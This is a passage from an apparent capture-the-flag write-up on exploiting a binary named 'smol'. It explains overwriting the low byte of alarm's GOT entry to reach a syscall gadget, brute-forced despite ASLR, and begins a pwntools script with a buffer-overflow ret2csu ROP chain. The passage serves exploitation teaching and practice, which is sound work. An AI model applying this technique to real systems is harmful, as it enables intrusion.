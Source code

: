 ```
   0x00007ffff7ea3f30 <+32>:	or     rax,0xffffffffffffffff
   0x00007ffff7ea3f34 <+36>:	ret
End of assembler dump.
```

First examine the GOT, notice how `0x404018` is a pointer to `0x7ffff7ea3f10` (`alarm`).

Now look at `alarm` disassembly.  There's a `syscall` gadget at byte `0x19`.  This byte will always been the same, for the same version of libc.  Not even ASLR will change it since ASLR does not change the three least significant nibbles (last 12 bits).  To brute-force this on an unknown system will take no more than 256 attempts!  _Alarming!_

### Putting it all together

Using _ret2csu_ and GOT `read` to change the `alarm` LSB and test for each byte should be trivial.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./smol')
```

Standard pwntools header.

```python
payload  = b''
payload += 0xc * b'A'
```

Start of payload.  We need to overflow `local_c` with `0xc` bytes to get to return address.

For the next three sections, we'll just be setting up a static payload for use with our brute-forcing loop.  Nothing is executing.

```python
pop_rbx_rbp_r12_r13_r14_r15 = 0x4011ca
set_rdx_rsi_rdi_call_r15 = 0x4011b0

# alarm -> syscall
# set up regs
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0) # rbx
payload += p64(1) # rbp to get pass check
payload += p64(0) # r12 -> edi this will be edi stdin for read
payload += p64(binary.got.alarm) # r13 -> rsi pointer to alarm
payload += p64(1) # r14 -> rdx
payload += p64(binary.got.read) # pointer to read

# this will call read to read one byte and overwrite alarm
payload += p64(set_rdx_rsi_rdi_call_r15)
payload += 7 * p64(0) # add rsp,0x8, 6 pops at end
```
